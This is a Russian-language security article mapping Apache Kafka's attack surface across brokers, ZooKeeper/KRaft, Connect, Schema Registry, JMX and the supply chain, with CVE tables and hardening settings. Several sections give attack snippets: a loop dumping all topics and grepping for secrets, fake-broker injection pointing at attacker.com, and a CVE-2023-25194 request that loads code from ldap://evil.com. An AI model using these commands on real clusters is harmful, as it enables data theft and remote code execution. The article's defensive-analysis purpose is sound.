

# Поверхность атаки Apache Kafka — векторы атак, категоризация и сравнительная матрица

**TL;DR:** Поверхность атаки Apache Kafka охватывает 7 категорий: сетевые протоколы (порты 9092-9094, 2181, 9999, 8081, 8083), клиентские API (produce/consume/admin), ZooKeeper/KRaft metadata layer, межброкерное взаимодействие, экосистемные компоненты (Connect, Schema Registry, ksqlDB), цепочку поставки (зависимости, контейнеры, плагины) и административные интерфейсы (JMX, CLI, REST). Каждый вектор категоризирован по CVSS-style (Critical/High/Medium/Low) с учётом exploitability и impact. Наиболее опасны: отсутствие аутентификации на брокере (порт 9092 — без аутентификации по умолчанию), десериализационные RCE через SASL JAAS (CVE-2023-25194, CVE-2025-27818/27819), bypass JWT-валидации OAUTHBEARER (CVE-2026-33557, CVSS 9.1) и компрометация ZooKeeper (полный контроль кластера). Статья содержит полный каталог поверхностей атаки, векторы атак на каждый компонент (брокеры, ZK/KRaft, Connect, Schema Registry, ksqlDB), атаки на цепочку поставки, сравнительную матрицу векторов и три перспективы безопасности. Время чтения: ~50 минут.

---

## Содержание

- [1. Каталог поверхностей атаки Kafka](#1-каталог-поверхностей-атаки-kafka)
  - [1.1 Сетевая поверхность: порты и протоколы](#11-сетевая-поверхность-порты-и-протоколы)
  - [1.2 Клиентские API: Producer, Consumer, Admin](#12-клиентские-api-producer-consumer-admin)
  - [1.3 Межброкерное взаимодействие](#13-межброкерное-взаимодействие)
  - [1.4 Metadata Layer: ZooKeeper и KRaft](#14-metadata-layer-zookeeper-и-kraft)
  - [1.5 Экосистемные компоненты: Connect, Schema Registry, ksqlDB](#15-экосистемные-компоненты-connect-schema-registry-ksqldb)
  - [1.6 Административные интерфейсы: JMX, CLI, REST](#16-административные-интерфейсы-jmx-cli-rest)
  - [1.7 Цепочка поставки: зависимости, контейнеры, плагины](#17-цепочка-поставки-зависимости-контейнеры-плагины)
- [2. Категоризация векторов атак по критичности (CVSS-style)](#2-категоризация-векторов-атак-по-критичности-cvss-style)
- [3. Векторы атак на компоненты Kafka](#3-векторы-атак-на-компоненты-kafka)
  - [3.1 Брокеры (Broker)](#31-брокеры-broker)
  - [3.2 ZooKeeper (Legacy Metadata)](#32-zookeeper-legacy-metadata)
  - [3.3 KRaft Controller (Metadata Quorum)](#33-kraft-controller-metadata-quorum)
  - [3.4 Kafka Connect](#34-kafka-connect)
  - [3.5 Schema Registry](#35-schema-registry)
  - [3.6 ksqlDB](#36-ksqldb)
- [4. Атаки на цепочку поставки](#4-атаки-на-цепочку-поставки)
  - [4.1 Зависимости Java (SCA)](#41-зависимости-java-sca)
  - [4.2 Образы контейнеров](#42-образы-контейнеров)
  - [4.3 Плагины и коннекторы Kafka Connect](#43-плагины-и-коннекторы-kafka-connect)
  - [4.4 Helm-чарты и операторы](#44-helm-чарты-и-операторы)
  - [4.5 Log4Shell (CVE-2021-44228): каскадный эффект](#45-log4shell-cve-2021-44228-каскадный-эффект)
- [5. Хронология CVE (2021–2026)](#5-хронология-cve-2021-2026)
- [6. Сравнительная матрица векторов атак](#6-сравнительная-матрица-векторов-атак)
- [7. Три перспективы безопасности](#7-три-перспективы-безопасности)
  - [7.1 Инфраструктурный безопасник](#71-инфраструктурный-безопасник)
  - [7.2 DevSecOps-инженер](#72-devsecops-инженер)
  - [7.3 Архитектор информационной безопасности](#73-архитектор-информационной-безопасности)
- [8. Итоги и приоритетный чеклист](#8-итоги-и-приоритетный-чеклист)
- [9. Источники](#9-источники)
- [10. Связанные статьи](#10-связанные-статьи)

---

## 1. Каталог поверхностей атаки Kafka

**Ключевой вывод:** Kafka как распределённая система имеет 7 категорий поверхностей атаки, каждая из которых предоставляет уникальные векторы. Наибольшую опасность представляет архитектурная особенность: **по умолчанию ВСЕ механизмы безопасности отключены**.

**Аналогия:** Представьте банк, где хранилище данных (брокеры) не требует ключа, главный офис управления (ZooKeeper/KRaft) открыт для посещения, курьерская служба (Connect) доставляет посылки без проверки отправителя, а отдел стандартизации (Schema Registry) позволяет любому менять формы документов. Именно так работает Kafka по умолчанию — осознанный trade-off между developer experience и security, требующий обязательного hardening'а перед production.

### 1.1 Сетевая поверхность: порты и протоколы

Сетевая поверхность — входная точка большинства атак. Каждый порт обслуживает специфический протокол со своим набором уязвимостей:

| Порт | Протокол | Назначение | Риск по умолчанию | Категория |
|------|----------|------------|-------------------|-----------|
| **9092** | Kafka Binary (TCP) | Брокер: PLAINTEXT listener | 🔴 **CRITICAL** — no auth, no encryption, no ACL | Сетевой |
| **9093** | Kafka Binary + TLS | Брокер: SSL listener | 🟠 **HIGH** — no auth, encryption only | Сетевой |
| **9094** | Kafka Binary + SASL + TLS | Брокер: SASL_SSL listener | 🟢 **LOW** — full security stack | Сетевой |
| **2181** | ZooKeeper (TCP) | Координация кластера (legacy) | 🔴 **CRITICAL** — полный контроль кластера | Metadata |
| **9999** | JMX/RMI (TCP) | Мониторинг JVM брокера | 🔴 **CRITICAL** — RCE через десериализацию | Admin |
| **8083** | HTTP/HTTPS | Kafka Connect REST API | 🔴 **CRITICAL** — создание/удаление коннекторов | Экосистема |
| **8081** | HTTP/HTTPS | Schema Registry REST API | 🟠 **HIGH** — манипуляция схемами | Экосистема |
| **8088** | HTTP/HTTPS | ksqlDB REST API | 🟠 **HIGH** — выполнение KSQL-запросов | Экосистема |
| **9095** | Kafka Binary (TCP) | KRaft Controller listener (internal) | 🟡 **MEDIUM** — depends on inter-broker security | Metadata |

**Важное замечание:** Порты 9092–9094 — лишь defaults. Kafka позволяет конфигурировать произвольные порты через параметры `listeners` и `advertised.listeners`. При пентесте необходимо сканировать весь диапазон.

**Сценарий атаки (открытый порт 9092):**

```bash
# Шаг 1: Обнаружение брокера (banner grab)
echo "." | nc -w 2 target.com 9092 | xxd | head

# Шаг 2: Получение метаданных кластера
kcat -b target.com:9092 -L
# Вывод: список брокеров, топиков, партиций

# Шаг 3: Чтение данных из всех топиков
for topic in $(kcat -b target.com:9092 -L | grep topic | awk '{print $2}'); do
    kcat -b target.com:9092 -t $topic -C -e -o beginning > "${topic}.dump"
done

# Шаг 4: Поиск sensitive data
grep -rliE "password|token|secret|api_key|credit_card" *.dump
```

### 1.2 Клиентские API: Producer, Consumer, Admin

Kafka предоставляет три категории клиентских API через бинарный протокол:

| API | Операции | Требуемые разрешения | Векторы атак |
|-----|----------|---------------------|--------------|
| **Producer API** | Produce (запись сообщений) | `WRITE` на топик | Инъекция malicious payload, flood (DoS), десериализационные атаки на брокер |
| **Consumer API** | Fetch (чтение), OffsetCommit, JoinGroup | `READ` на топик, `READ` на ConsumerGroup | Чтение sensitive data, перехват consumer group, replay-атаки через offset |
| **Admin API** | CreateTopics, DeleteTopics, AlterConfigs, DescribeCluster, CreateAcls, DeleteAcls | `ALTER` на Cluster/Topic | Создание/удаление топиков, изменение конфигурации брокера, удаление ACL, bypass security |

**Ключевая особенность бинарного протокола:** Kafka использует custom wire protocol (не HTTP/REST), что затрудняет detection стандартными WAF/IDS-системами. Бинарные запросы не проходят через HTTP-фильтры — требуется protocol-aware IDS (например, Suricata с Kafka plugin) или глубокий анализ на уровне брокера.

**Пример Admin API exploitation:**

```bash
# Удаление топика (если есть ALTER permission)
kafka-topics --bootstrap-server target.com:9094 \
  --command-config admin.conf \
  --delete --topic payments

# Изменение конфигурации брокера (если есть ALTER_CONFIGS на CLUSTER)
kafka-configs --bootstrap-server target.com:9094 \
  --command-config admin.conf \
  --alter --add-config 'unclean.leader.election.enable=true' \
  --entity-type brokers --entity-default
# → риск потери данных через unclean leader election
```

### 1.3 Межброкерное взаимодействие

Брокеры обмениваются данными через replication protocol. Это внутренний трафик, который часто остаётся незащищённым.

**Векторы атак на inter-broker communication:**

| Вектор | Описание | Предусловия | CVSS-style |
|--------|----------|-------------|------------|
| **Replication MITM** | Перехват реплицируемых данных между брокерами | Отсутствие inter-broker TLS (`security.inter.broker.protocol=PLAINTEXT`) | HIGH (AV:A/AC:L) |
| **Fake Broker Injection** | Запуск поддельного брокера, входящего в ISR | Доступ к ZooKeeper (запись `/brokers/ids`) или KRaft controller | CRITICAL (AV:N/AC:L) |
| **Leader Reassignment** | Принудительное переназначение лидера на контролируемый брокер | Admin API + ALTER на Cluster | HIGH |
| **Replication Flood** | Лавинообразное увеличение replication-трафика | Компрометация одного брокера | MEDIUM |

**Сценарий: Fake Broker Injection через ZooKeeper (legacy):**

```bash
# Attacker с доступом к ZooKeeper:
zkCli.sh -server zk:2181
  create /brokers/ids/99 '{
    "host":"attacker.com",
    "port":9095,
    "jmx_port":9999,
    "version":4
  }'
# → Fake broker становится видимым для кластера
# → Контроллер может назначить его лидером партиции
# → Данные начинают реплицироваться на подконтрольный attacker'у сервер
```

**Защита межброкерного взаимодействия:**

```properties
# В server.properties ВСЕХ брокеров:
security.inter.broker.protocol=SSL                           # TLS-only
# или:
security.inter.broker.protocol=SASL_SSL                      # SASL + TLS
sasl.mechanism.inter.broker.protocol=SCRAM-SHA-512           # Strong auth
inter.broker.listener.name=INTERNAL                          # Dedicated listener
```

### 1.4 Metadata Layer: ZooKeeper и KRaft

Метаданные кластера (топики, партиции, брокеры, конфигурации, ACL) — наиболее критичный актив. Компрометация metadata layer = полный контроль над кластером.

#### ZooKeeper (Legacy, до Kafka 3.x)

| Вектор | Описание | Impact | CVSS-style |
|--------|----------|--------|------------|
| **Direct ZK Access (без ACL)** | Подключение к порту 2181 без аутентификации | CRITICAL | CRITICAL (AV:N/AC:L) |
| **ZK Node Enumeration** | Чтение `/brokers/ids`, `/config/topics`, `/config/users` | HIGH | HIGH |
| **ZK Write (Configuration Tampering)** | Изменение `retention.ms` → удаление данных, `min.insync.replicas=1` → снижение durability | CRITICAL | CRITICAL |
| **ZK Delete (Node Removal)** | Удаление `/brokers/ids/X` → брокер исключается из кластера | CRITICAL | CRITICAL |
| **ZK ACL Sniffing** | Чтение SCRAM credentials из `/config/users` | CRITICAL | CRITICAL |
| **ZK DoS (Connection Exhaustion)** | Открытие максимального числа сессий → потеря кворума | HIGH | HIGH (AV:N/AC:M) |

#### KRaft Controller (Kafka 3.3+, Production-ready с 3.5; Default с 4.0)

| Вектор | Описание | Impact | CVSS-style |
|--------|----------|--------|------------|
| **Controller Endpoint без аутентификации** | Подключение к `controller.listener.names` без SASL/TLS | CRITICAL | CRITICAL |
| **Metadata Log Tampering** | Модификация `__cluster_metadata` топика через Admin API | CRITICAL | CRITICAL |
| **Quorum Split-Brain** | Сетевая изоляция части контроллеров → расхождение метаданных | CRITICAL | HIGH (AV:A/AC:L) |
| **Controller DoS** | Flood запросов к контроллеру → задержки в обработке метаданных | HIGH | MEDIUM |
| **KRaft Voter Spoofing** | Поддельный voter присоединяется к quorum (KIP-853 mitigates) | CRITICAL | HIGH (AV:N/AC:H) |
| **Disk Failure (KIP-856)** | Контроллер теряет metadata-лог на диске → inconsistency | HIGH | MEDIUM |

**Сравнение ZK vs KRaft по поверхности атаки:**

| Аспект | ZooKeeper | KRaft |
|--------|-----------|-------|
| **Внешняя зависимость** | Да — отдельный кластер ZK | Нет — metadata внутри Kafka |
| **Поверхность атаки** | Больше (дополнительные порты, протоколы) | Меньше (unified protocol) |
| **Сложность защиты** | Высокая (ZK + Kafka ACL, 2 системы) | Средняя (SASL_SSL на controller listener) |
| **Exploitability** | Выше (ZK — хорошо изученная технология с известными эксплойтами) | Ниже (KRaft — собственная реализация, меньше research) |
| **Maturity** | 15+ лет (много багов исправлено) | ~3 года (меньше исправленных уязвимостей) |

### 1.5 Экосистемные компоненты: Connect, Schema Registry, ksqlDB

Экосистема Kafka добавляет 3-5x к общей поверхности атаки.

#### Kafka Connect

Kafka Connect — фреймворк для интеграции Kafka с внешними системами через плагины-коннекторы. Работает на порту 8083.

**Поверхность атаки Kafka Connect:**

| Вектор | Тип атаки | Описание | CVSS |
|--------|-----------|----------|------|
| **Unauthenticated REST API (8083)** | Сетевой | Создание/удаление/перезапуск коннекторов без аутентификации | CRITICAL |
| **JNDI Injection через SASL JAAS (CVE-2023-25194)** | RCE | Создание коннектора с `JndiLoginModule` → JNDI lookup → RCE | 8.8 |
| **ConfigProvider Privilege Escalation (CVE-2024-31141)** | PrivEsc | Чтение файлов/ENV через `${file:...}` в конфигурации коннектора | 7.5 |
| **Malicious Connector Plugin** | Supply Chain | Установка вредоносного JAR-плагина через `plugin.path` | CRITICAL |
| **Connector Credential Theft** | Info Disclosure | Доступ к credentials внешних систем через конфигурацию коннектора | HIGH |
| **REST API DoS** | DoS | Flood POST/PUT запросов → перегрузка Connect worker | MEDIUM |

**Сценарий эксплуатации CVE-2023-25194:**

```
POST /connectors HTTP/1.1
Host: target.com:8083
Content-Type: application/json

{
  "name": "malicious-connector",
  "config": {
    "connector.class": "FileStreamSink",
    "tasks.max": "1",
    "file": "/tmp/dummy",
    "topics": "test",
    "producer.override.sasl.jaas.config":
      "com.sun.security.auth.module.JndiLoginModule required
       user.provider.url=\"ldap://evil.com:1389/Exploit\";"
  }
}
```

Без аутентификации на REST API любой сетевой доступ к порту 8083 = RCE.

**Защита:**

```properties
# connect-distributed.properties
rest.advertised.host.name=connect.internal
rest.extension.classes=org.apache.kafka.connect.rest.basic.auth.extension.BasicAuthSecurityRestExtension
connector.client.config.override.policy=None   # Запрет override'а producer/consumer configs
```

#### Schema Registry

Schema Registry (порт 8081) управляет схемами данных (Avro, Protobuf, JSON Schema). Компрометация Schema Registry позволяет манипулировать тем, как потребители интерпретируют сообщения.

**Поверхность атаки Schema Registry:**

| Вектор | Описание | Impact |
|--------|----------|--------|
| **Unauthenticated REST API** | Создание/изменение/удаление схем без auth | HIGH |
| **Schema Poisoning** | Регистрация malicious схемы → consumer deserialization fails или misinterprets данные | HIGH |
| **Schema Compatibility Bypass** | Принудительная регистрация incompatible схемы → cascading consumer failures | MEDIUM |
| **Sensitive Schema Enumeration** | Чтение всех зарегистрированных схем → раскрытие структуры данных | MEDIUM |
| **Schema Registry DoS** | Массовая регистрация схем → исчерпание хранилища (`_schemas` topic) | MEDIUM |

**Сценарий Schema Poisoning:**

```
Исходная схема (Avro):
{"type": "record", "name": "Payment", "fields": [
  {"name": "user_id", "type": "string"},
  {"name": "amount", "type": "double"}
]}

→ Attacker регистрирует новую версию:
{"type": "record", "name": "Payment", "fields": [
  {"name": "user_id", "type": "string"},
  {"name": "amount", "type": "int"}     # double → int
]}
→ Consumer десериализует $99.99 как 99 (потеря дробной части)
→ Финансовый impact
```

#### ksqlDB

ksqlDB (порт 8088) — SQL-движок для потоковой обработки в Kafka. Выполняет запросы к Kafka topics.

**Поверхность атаки ksqlDB:**

| Вектор | Описание | Impact |
|--------|----------|--------|
| **Unauthenticated REST API** | Выполнение произвольных KSQL-запросов без аутентификации | CRITICAL |
| **SQL Injection через KSQL** | Инъекция через некорректную интерполяцию параметров в KSQL-запросах | HIGH |
| **Resource Exhaustion через Query** | Создание тяжёлых persistent queries → перегрузка брокеров | MEDIUM |
| **Sensitive Data Querying** | `SELECT * FROM sensitive_topic EMIT CHANGES;` — streaming exfiltration | HIGH |
| **Stream/Table Deletion** | `DROP STREAM payments;` → потеря данных стрима | MEDIUM |

### 1.6 Административные интерфейсы: JMX, CLI, REST

Административные интерфейсы — high-value цель, т.к. предоставляют управляющий доступ.

#### JMX (Java Management Extensions)

JMX по умолчанию открыт на порту 9999 без аутентификации. Использует RMI — протокол с inherent десериализационными рисками.

**Векторы атак на JMX:**

| Вектор | Описание | CVSS |
|--------|----------|------|
| **JMX без аутентификации** | Доступ к MBean-ам брокера → изменение конфигурации, shutdown | CRITICAL |
| **RMI Deserialization RCE** | Эксплуатация десериализации в RMI-протоколе (CVE-2024-32030, Kafka UI) | CRITICAL |
| **Kafka UI JMX SSRF** | Указание attacker-controlled JMX URL в Kafka UI → RCE (CVE-2024-32030) | 9.8 |
| **JMX Credential Exposure** | Пароли JMX в jmxremote.password без правильных прав доступа | MEDIUM |
| **MBean Enumeration** | Сбор информации о кластере, топиках, consumers через JMX без auth | MEDIUM |

#### Kafka CLI Tools

CLI-инструменты (`kafka-topics.sh`, `kafka-configs.sh`, `kafka-acls.sh`) через Admin Protocol:

- Требуют SASL-аутентификацию, если она включена на брокере
- Уязвимы к credential theft если `--command-config` с паролями хранится в insecure location
- Могут использоваться для lateral movement после компрометации admin-рабочей станции

#### Kafka REST Proxy

REST Proxy (порт 8082 в Confluent) — HTTP-интерфейс к Kafka для языков без native клиента:

| Вектор | Описание | Impact |
|--------|----------|--------|
| **Unauthenticated REST API** | Produce/consume через HTTP без auth | HIGH |
| **Log4j2 в REST Proxy** | Зависимая уязвимость (устранена в Confluent 7.0.1+) | CRITICAL |

### 1.7 Цепочка поставки: зависимости, контейнеры, плагины

**Ключевой вывод:** Цепочка поставки (supply chain) — наиболее недооценённая поверхность атаки Kafka. Брокер тянет 100+ Java-зависимостей, Docker-образы содержат системные пакеты с CVEs, а Kafka Connect плагины — код third-party разработчиков с неизвестным security quality.

| Элемент цепочки | Риск | Описание |
|-----------------|------|----------|
| **Java Dependencies** | 🔴 CRITICAL | 100+ JAR-ов: log4j, Netty, Snappy, Jackson, Zstd — каждая с потенциальными CVE |
| **Base Container Images** | 🟠 HIGH | OS-пакеты в Confluent/Strimzi образах (glibc, OpenSSL, curl — частые CVE) |
| **Kafka Connect Plugins** | 🔴 CRITICAL | Third-party JAR-ы с доступом к данным брокера — потенциально вредоносный код |
| **Helm Charts/Operators** | 🟡 MEDIUM | Misconfiguration в дефолтных values.yaml (открытые порты, no auth) |
| **Build Pipeline** | 🟡 MEDIUM | Компрометация CI/CD → инъекция backdoor в артефакты |
| **Schema Registry Dependencies** | 🟠 HIGH | log4j2, Jackson — те же классы уязвимостей что и у брокера |

Подробный разбор — в разделе [4. Атаки на цепочку поставки](#4-атаки-на-цепочку-поставки).

---

## 2. Категоризация векторов атак по критичности (CVSS-style)

Для систематизации векторов атак используем CVSS-style классификацию с учётом exploitability (доступность вектора, сложность, требования к привилегиям) и impact (конфиденциальность, целостность, доступность).

| Уровень | Критерий | Примеры для Kafka |
|---------|----------|-------------------|
| 🔴 **CRITICAL** (9.0-10.0) | Network-exploitable, низкая сложность, без привилегий, полная компрометация | Открытый порт 9092 без auth, JMX RCE, ZK без ACL, CVE-2026-33557 (JWT bypass) |
| 🟠 **HIGH** (7.0-8.9) | Network-exploitable, требует некоторых условий, значительный impact | RCE через SASL JAAS (CVE-2025-27818), Schema Registry без auth, Connect REST без auth |
| 🟡 **MEDIUM** (4.0-6.9) | Требует adjacent access или привилегий, ограниченный impact | SCRAM replay без TLS (CVE-2024-56128), consumer group manipulation, DoS векторы |
| 🟢 **LOW** (1.0-3.9) | Высокая сложность, минимальный impact | Information disclosure через timing, resource exhaustion с ограничениями |

**Распределение векторов по критичности:**

```
CRITICAL  (9): Unauthenticated Broker, ZK без ACL, JMX RCE, CVE-2026-33557,
                Connect REST без auth, ksqlDB REST без auth,
                Supply Chain: Malicious Plugin, CVE-2021-44228 (cascade),
                Fake Broker Injection
HIGH     (11): CVE-2025-27818/27819, CVE-2024-31141, CVE-2024-27309,
                Schema Registry без auth, CVE-2026-35554 (data leak),
                CVE-2025-27817 (SSRF), ZK enumeration,
                Replication MITM, Container CVEs, Schema Poisoning
MEDIUM   (10): CVE-2024-56128 (SCRAM replay), CVE-2026-33558 (log leak),
                Consumer Group Manipulation, Admin CLI Credential Theft,
                REST API DoS, Connect DoS, KRaft DoS, ZK DoS,
                Helm Defaults, Schema Registry DoS
LOW       (3): ZK connection monitoring, Schema enumeration,
                MBean enumeration
```

---

## 3. Векторы атак на компоненты Kafka

### 3.1 Брокеры (Broker)

Брокер — центральный компонент. Хранит данные, обрабатывает клиентские соединения, участвует в репликации.



**Полный перечень векторов атак на брокер:**

| # | Вектор | Тип | Описание | Условия | CVSS-style | Mitigation |
|---|--------|-----|----------|---------|------------|------------|
| B1 | Open PLAINTEXT Listener | Unauthenticated Access | Любой может подключаться к порту 9092 | `listeners=PLAINTEXT://:9092` | 🔴 CRITICAL | Отключить PLAINTEXT |
| B2 | Anonymous SSL | Unauthenticated Access | TLS без аутентификации клиента | `listeners=SSL://:9093` без `ssl.client.auth=required` | 🟠 HIGH | Включить `ssl.client.auth=required` |
| B3 | SASL Brute Force | Credential Attack | Перебор SASL credentials | Слабые пароли, отсутствие rate limiting | 🟡 MEDIUM | Strong passwords + `connections.max.reauth.ms` |
| B4 | SASL JAAS JNDI Injection (CVE-2023-25194, 2025-27819) | RCE | JNDI lookup через `JndiLoginModule` в JAAS | Connect REST доступ ИЛИ AlterConfigs | 🟠 HIGH (8.8) | Обновление ≥ 4.0, disallowed login modules |
| B5 | SASL JAAS LDAP Injection (CVE-2025-27818) | RCE | LdapLoginModule десериализация | AlterConfigs на CLUSTER | 🟠 HIGH (8.8) | Обновление ≥ 4.0 |
| B6 | OAUTHBEARER JWT Bypass (CVE-2026-33557) | Auth Bypass | DefaultJwtValidator принимает любой JWT | 4.1.0-4.1.1 | 🔴 CRITICAL (9.1) | 4.2.0 или BrokerJwtValidator |
| B7 | SCRAM Replay без TLS (CVE-2024-56128) | Replay | Nonce не проверяется в SCRAM exchange | SASL_PLAINTEXT (без TLS) | 🟡 MEDIUM | SCRAM только с TLS |
| B8 | ACL Bypass при ZK→KRaft (CVE-2024-27309) | ACL Bypass | Удаление ACL с ресурса, где 2+ ACL → обход | Миграция ZK→KRaft | 🟠 HIGH (7.5) | Завершить миграцию, аудит ACL |
| B9 | ConfigProvider PrivEsc (CVE-2024-31141) | PrivEsc | Чтение файлов/ENV через `${file:...}` | Connect REST доступ ИЛИ клиентский конфиг | 🟠 HIGH (7.5) | Обновление клиентов ≥ 3.8 |
| B10 | OAUTHBEARER SSRF (CVE-2025-27817) | SSRF | File read/SSRF через OAUTHBEARER URL | Клиенты 3.1-3.9 | 🟠 HIGH (7.5) | Обновление клиентов ≥ 3.9.1 |
| B11 | Race Condition Data Leak (CVE-2026-35554) | Data Leak | BufferPool reuse → сообщения в чужой топик | Клиенты 2.8-4.1 | 🟠 HIGH (7.5) | Обновление клиентов |
| B12 | Credentials in DEBUG Logs (CVE-2026-33558) | Info Leak | Пароли/токены в NetworkClient DEBUG | DEBUG log level | 🟡 MEDIUM | INFO+ level |
| B13 | Disk Exhaustion | DoS | Flood топика до заполнения диска | Нет квот | 🟡 MEDIUM | Retention limits + quotas |
| B14 | Connection Exhaustion | DoS | SYN flood / connection flood на порты брокера | Нет rate limiting на сети | 🟡 MEDIUM | Network-level rate limiting |
| B15 | Topic Deletion | DoS / Data Loss | Удаление топика через Admin API | ALTER permission + `delete.topic.enable=true` | 🟡 MEDIUM | Ограничить ALTER |
| B16 | Dynamic Config Change | Config Tampering | Изменение конфигурации брокера через Admin API | ALTER_CONFIGS | 🟠 HIGH | ACL + audit |
| B17 | Deserialization in Protocol Parsing | RCE | Уязвимость в парсере Kafka wire protocol | Теоретически — баг в парсере | 🟠 HIGH (potential) | Fuzzing брокера |
| B18 | Memory Corruption via Compression | RCE/DoS | Уязвимость в Snappy/LZ4/ZSTD codec | Баг в compression library | 🟡 MEDIUM (potential) | Обновление зависимостей |

### 3.2 ZooKeeper (Legacy Metadata)

ZooKeeper — внешний сервис, хранящий метаданные Kafka. Наличие отдельного кластера ZK удваивает операционную сложность и поверхность атаки.

**Архитектура угроз для ZooKeeper Kafka:**

```
Attacker Target: ZooKeeper (port 2181)
├── Если ZK без ACL:
│   ├── Чтение /brokers/ids → карта кластера
│   ├── Чтение /config/users → SCRAM credentials (hashed, но с солью — crackable)
│   ├── Запись /config/topics/X → изменение конфигурации топика
│   └── Удаление /brokers/ids/X → исключение брокера
├── Если ZK с ACL, но без TLS:
│   └── MITM → sniff ZK traffic → intercept конфигураций
├── Если ZK с ACL + TLS, но exposed в сеть:
│   └── DoS через connection limit ZK (по умолчанию 60 connections)
└── ZK 4-letter words (stat, dump, envi) — информация без auth
```

**Векторы атак на ZooKeeper:**

| # | Вектор | Тип | CVSS-style | Mitigation |
|---|--------|-----|------------|------------|
| Z1 | Unauthenticated ZK Access | Full Cluster Control | 🔴 CRITICAL | ZK SASL/Digest ACL + network isolation |
| Z2 | ZK 4-letter words без ограничений | Info Disclosure | 🟢 LOW | `4lw.commands.whitelist=stat,ruok` |
| Z3 | ZK Node Enumeration | Info Disclosure | 🟠 HIGH | ZK ACL на Kafka znodes |
| Z4 | ZK Write — Topic Config Tampering | Config Tampering | 🔴 CRITICAL | ZK ACL: auth:kafka:cdrwa |
| Z5 | ZK Write — Broker Removal | DoS | 🔴 CRITICAL | ZK ACL |
| Z6 | ZK Read — SCRAM Credential Harvesting | Credential Theft | 🔴 CRITICAL | ZK ACL + SCRAM с strong cost factor (4096+) |
| Z7 | ZK Session Flood | DoS (потеря кворума) | 🟠 HIGH | `maxClientCnxns`, network isolation |
| Z8 | ZK Snapshots Exposure | Info Leak | 🟡 MEDIUM | File permissions: `chmod 700` data dir |
| Z9 | ZK MITM (без TLS) | Info Disclosure | 🟠 HIGH | ZK TLS (ZK 3.5+) |

### 3.3 KRaft Controller (Metadata Quorum)

KRaft заменяет ZooKeeper на встроенный Raft-консенсус. Контроллеры используют тот же бинарный протокол, что и брокеры.

**Векторы атак на KRaft Controller:**

| # | Вектор | Тип | CVSS-style | Mitigation |
|---|--------|-----|------------|------------|
| K1 | Unauthenticated Controller Listener | Full Metadata Control | 🔴 CRITICAL | SASL_SSL на `controller.listener.names` |
| K2 | Controller Listener без TLS | MITM | 🟠 HIGH | SSL/SASL_SSL |
| K3 | Voter Spoofing (No mTLS) | Fake Controller Joins Quorum | 🔴 CRITICAL | mTLS между контроллерами |
| K4 | Metadata Log Poisoning | RCE/DoS | 🔴 CRITICAL | ACL на `__cluster_metadata` |
| K5 | Split-Brain via Network Partition | Data Inconsistency | 🟠 HIGH | Правильная конфигурация voters |
| K6 | Controller Disk Failure (KIP-856) | Metadata Loss | 🟡 MEDIUM | JBOD для metadata, мониторинг |
| K7 | DoS on Controller | Cluster Unavailability | 🟡 MEDIUM | Rate limiting, monitoring |
| K8 | Downgrade Attack (KRaft → ZK) | Security Downgrade | 🔴 CRITICAL | `metadata.version` pinned |

### 3.4 Kafka Connect

Kafka Connect — наиболее опасный экосистемный компонент из-за:
1. REST API без аутентификации по умолчанию
2. Возможности выполнения произвольного кода через плагины-коннекторы
3. Доступа к credentials внешних систем

**Полная поверхность атаки Kafka Connect:**

| # | Вектор | Тип | Описание | CVSS-style |
|---|--------|-----|----------|------------|
| C1 | Unauthenticated REST API | Unauthorized Access | CRUD коннекторов без аутентификации | 🔴 CRITICAL |
| C2 | JNDI Injection RCE (CVE-2023-25194) | RCE | JndiLoginModule через `producer.override.sasl.jaas.config` | 🟠 HIGH (8.8) |
| C3 | LDAP Injection RCE (CVE-2025-27818) | RCE | LdapLoginModule версия для Connect | 🟠 HIGH (8.8) |
| C4 | ConfigProvider File Read (CVE-2024-31141) | PrivEsc | `${file:/etc/passwd}` в конфигурации коннектора | 🟠 HIGH (7.5) |
| C5 | Malicious Connector JAR | RCE/Backdoor | Установка вредоносного JAR в plugin.path | 🔴 CRITICAL |
| C6 | Credential Harvesting | Info Theft | Доступ к БД/SaaS credentials в конфигурации коннектора | 🟠 HIGH |
| C7 | Connector Task Code Execution | RCE | Произвольная логика в SMT (Single Message Transforms) | 🟡 MEDIUM |
| C8 | REST API SSRF | SSRF | Коннектор указывает на внутренние сервисы | 🟡 MEDIUM |
| C9 | Connect Worker DoS | DoS | Flood POST / PUT → перегрузка | 🟢 LOW |
| C10 | Secret Key via REST Config | Credential Leak | Секреты в GET /connectors/{name}/config | 🟡 MEDIUM |

### 3.5 Schema Registry

**Полная поверхность атаки Schema Registry:**

| # | Вектор | Тип | Описание | CVSS-style |
|---|--------|-----|----------|------------|
| S1 | Unauthenticated REST API | Unauthorized Access | Регистрация/изменение схем без аутентификации | 🟠 HIGH |
| S2 | Schema Poisoning | Data Integrity | Регистрация схемы с изменёнными типами полей | 🟠 HIGH |
| S3 | Compatibility Bypass | DoS | Принудительная incompatible схема → consumer failures | 🟡 MEDIUM |
| S4 | Sensitive Schema Exposure | Info Leak | Чтение всех схем → раскрытие структуры данных | 🟢 LOW |
| S5 | Schema Registry DoS | DoS | Массовая регистрация → заполнение `_schemas` | 🟡 MEDIUM |
| S6 | Schema Registry Deserialization | RCE | Зависимые CVE в Jackson/Avro парсерах | 🟠 HIGH |
| S7 | Subject Deletion | Data Loss | Удаление subject → consumers lose schema | 🟡 MEDIUM |

### 3.6 ksqlDB

| # | Вектор | Тип | Описание | CVSS-style |
